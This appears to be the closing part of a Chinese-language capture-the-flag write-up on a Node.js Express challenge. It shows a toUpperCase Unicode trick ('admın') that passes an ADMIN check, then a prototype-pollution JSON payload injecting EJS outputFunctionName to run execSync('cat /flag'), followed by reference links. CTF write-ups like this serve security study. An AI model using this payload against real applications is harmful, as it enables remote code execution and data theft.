 ```javascript
    } else if (req.body.Submit == "login") {
        if (!req.session.user) { res.end("<script>alert('register first');history.go(-1);</script>") }
        if (req.session.user.user == req.body.userid && req.body.pwd == req.session.user.passwd) {
            req.session.user.isLogin = true;
        } else {
            res.end("<script>alert('error passwd');history.go(-1);</script>")
        }

    }
    res.redirect('/');;
});
```

匹配大小写之后`toUpperCase`转为大写，p牛的一篇文章：

>   Fuzz中的javascript大小写特性
>
>   https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html

注册admın

之后就到了漏洞部分：

```javascript
router.post('/action', function(req, res) {
    if (req.session.user.user != "ADMIN") { res.end("<script>alert('ADMIN is asked');history.go(-1);</script>") }
    req.session.user.data = clone(req.body);
    res.end("<script>alert('success');history.go(-1);</script>");
});
```

payload的构造：https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/

`{"__proto__":{"outputFunctionName":"a;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')//"},"Submit":""}`

改application/json，之后访问info得flag。

end.

-------------

```
https://www.cnblogs.com/ophxc/p/13298896.html
https://as1def.github.io/2021/01/24/NodeJs%E4%BB%8E%E9%9B%B6%E5%BC%80%E5%A7%8B%E5%88%B0%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/
https://www.anquanke.com/post/id/236182
https://www.freebuf.com/articles/web/200406.html
https://www.cnblogs.com/tr1ple/p/11360881.html
https://0xcreed.jxustctf.top/2020/06/nodejs%E5%AD%A6%E4%B9%A0/
https://xz.aliyun.com/t/7184#toc-3
https://xz.aliyun.com/t/7182
https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html
```
